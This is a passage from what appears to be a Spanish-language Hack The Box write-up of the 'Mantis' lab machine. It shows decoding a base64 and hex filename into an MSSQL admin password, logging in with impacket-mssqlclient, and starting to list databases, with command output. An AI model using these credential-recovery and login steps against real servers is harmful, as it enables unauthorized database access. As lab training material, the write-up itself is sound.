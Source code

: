 Aquí ya vemos que nos están dando información sobre `SQL Server` que el puerto como tal esta abierto 

![](/assets/images/htb-writeup-mantis/web6.png)

Si nos fijamos en el nombre del archivo vemos que esta en `base64` a si que vamos aplicar un `decode`

```bash
❯ echo "NmQyNDI0NzE2YzVmNTM0MDVmNTA0MDczNzM1NzMwNzI2NDIx" | base64 -d; echo
6d2424716c5f53405f504073735730726421
```

Y nos devuelve una cadena en `hexadecimal` y al final una contraseña 

```bash
❯ echo "6d2424716c5f53405f504073735730726421" | xxd -ps -r; echo
m$$ql_S@_P@ssW0rd!
```

## mssqlclient admin 

Si revisamos en las notas nos dicen que el usuario es `admin` que lo mas probable es que esa base de datos que nos piden crear ya esta creada y como tal tenemos una contraseña a si que nos podemos conectar con  `mssqlclient.py`

```bash
❯ impacket-mssqlclient htb.local/admin:'m$$ql_S@_P@ssW0rd!'@mantis.htb.local
Impacket v0.10.1.dev1+20230207.122134.c812d6c7 - Copyright 2022 Fortra

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(MANTIS\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(MANTIS\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (120 7208) 
[!] Press help for extra shell commands
SQL> 
```

Vamos a enumerar las bases de datos

```bash
SQL> select name from sysdatabases;
name                                                                                                                           >

------------------------------------------------------------------------------------------------------------------------------->

master                                                                                                                         >

tempdb                                                                                                                         >

```